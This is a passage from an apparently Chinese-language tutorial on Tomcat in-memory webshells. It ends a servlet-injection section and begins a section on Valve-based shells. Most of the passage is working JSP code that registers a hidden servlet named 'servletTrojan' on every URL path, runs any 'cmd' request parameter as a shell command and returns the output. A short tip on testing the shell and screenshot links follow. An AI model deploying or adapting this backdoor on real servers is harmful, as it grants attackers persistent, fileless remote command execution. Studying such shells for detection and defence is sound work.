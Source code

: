 ```jsp

    HttpServlet servlet = new HttpServlet() {
        @Override
        protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    };

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName("servletTrojan");
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servlet);
    wrapper.setServletClass(HttpServlet.class.getName());

    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/*", "servletTrojan");

    out.println("inject done!");
    out.flush();
%>

```

> 测试的时候记得把上一个马删掉，以免冲突



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221228215800071.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221228215818947.png)



## 四、valve内存马

value是Tomcat中对Container组件进行的扩展。Container组件也就是前文一直提及的Tomcat四大容器

Tomcat由四大容器组成，分别是**Engine、Host、Context、Wrapper**。这四个组件是负责关系，存在包含关系。只包含一个引擎（Engine）：
